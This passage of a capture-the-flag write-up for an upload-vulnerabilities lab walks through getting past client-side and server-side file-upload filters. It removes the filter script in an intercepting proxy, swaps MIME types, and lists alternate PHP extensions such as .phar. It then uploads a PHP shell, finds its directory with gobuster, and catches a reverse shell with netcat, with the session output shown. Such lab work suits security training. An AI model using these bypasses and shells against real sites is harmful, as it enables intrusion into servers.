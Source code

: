 ```http
	</head>
	<body>
		<main>
			<div id="maintext">
				<h1>Café<span id=mug> S </span>Java!</h1>
				<button class="Btn" id="uploadBtn">Select File</button>
				<form method="post" enctype="multipart/form-data">
					<input type="file" name="fileToUpload" id="fileSelect" style="display:none">
					<input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
				</form>
				<p style="display:none;" id="errorMsg">Invalid File Type</p>
				<p style="display:none;" id="uploadtext"></p>
				<p class="responseMsg" style="display:none;" ></p>
			</div>
		</main>
	</body>
</html>
```

we delete this line as that is clearly the filter
```html
<script src="assets/js/client-side-filter.js"></script>
```
then we click forward
then go to chromium browser, select file and upload, then forward until it shows success 
then go to /images (run gobuster to get this)
then click on shell.php and open nc listener
then click on forward and go to the terminal with nc listener and same as before
```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.97.222] from (UNKNOWN) [10.10.25.54] 37840
Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:28:28 up  1:43,  0 users,  load average: 0.20, 0.31, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}
$ 
```
**FLAG - `THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`**

The second type did not work for me
however here are the steps-
- rename the file to shell.jpg
- turn on intercept and catch the upload request
- change MIME type from images/jpeg to text/x-php and extension form .jpg to .php
- then do same as before

## Bypassing Server-Side Filtering: File Extensions
In the source code .php and .phtml are being blocked
so we use alternate extensions to go about this
`.php3`, `.php4`, `.php5`, `.php7`, `.phps`, `.php-s`, `.pht` and `.phar`
however the first few don't work and .phar works so let us rename it to shell.phar
before that run gobuster
```bash
$ gobuster dir -u http://annex.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
